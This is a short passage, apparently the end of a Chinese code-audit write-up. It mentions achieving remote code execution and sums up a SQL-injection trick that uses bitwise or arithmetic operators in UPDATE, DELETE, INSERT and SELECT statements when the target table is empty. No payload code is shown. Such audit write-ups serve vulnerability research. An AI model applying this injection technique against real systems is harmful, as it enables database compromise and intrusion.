[](https://xzfile.aliyuncs.com/media/upload/picture/20240205204447-58157670-c424-1.png)

RCE。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205204758-ca0904ea-c424-1.png)

### 总结

代码审计时需要先分析系统做了哪些安全处理，在根据分析结果着重去挖掘，这样能事半功倍。  
当 sql update 语句更新的表中没有数据时可以使用位运算符（&、|、^、~）或者算术运算符（+、-、\*、/、%）来执行注入，同样适用于 delete、insert、select 语句。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240205210359-06cf4734-c427-1.png)
